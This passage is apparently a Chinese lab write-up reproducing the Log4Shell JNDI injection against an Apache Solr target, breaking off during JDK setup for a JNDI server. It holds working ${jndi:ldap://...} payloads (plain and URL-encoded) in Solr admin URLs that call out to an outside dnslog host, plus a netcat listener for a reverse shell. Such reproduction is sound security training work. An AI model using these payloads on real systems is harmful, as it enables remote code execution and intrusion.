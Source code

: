 ![image-20240923095634542](https://image.201068.xyz/assets/36.漏洞复现/image-20240923095634542.png)

### 访问靶场

192.168.70.14:8983

![image-20240923102640916](https://image.201068.xyz/assets/36.漏洞复现/image-20240923102640916.png)

### burpsute抓包

![image-20240923112611751](https://image.201068.xyz/assets/36.漏洞复现/image-20240923112611751.png)

### dnslog测试

> fantasycat.dnslog.pw

```python
http://192.168.70.14:8983/solr/admin/cores?_=${jndi:ldap://fantasycat.dnslog.pw/exp}

http://192.168.70.14:8983/solr/admin/cores?_=%24%7bjndi%3aldap%3a%2f%2ffantasycat.dnslog.pw%2fexp%7d
```

![image-20240923112809568](https://image.201068.xyz/assets/36.漏洞复现/image-20240923112809568.png)

![image-20240923112754418](https://image.201068.xyz/assets/36.漏洞复现/image-20240923112754418.png)



```python
http://192.168.70.14:8983/solr/admin/info/logging?_=${jndi:ldap://fantasycat.dnslog.pw/exp}
http://192.168.70.14:8983/solr/admin/info/system?_=${jndi:ldap://fantasycat.dnslog.pw/exp}
```



### kali监听

```python
nc -lvvp 7777
```

### 开启jndi服务器

#### kali安装jdk8

##### 1.下载解压

``` bash
tar -xzf jdk-8u91-linux-x64.tar.gz
mv jdk1.8.0_91 /opt
cd /opt/jdk1.8.0_91
```

##### 2.安装并注册
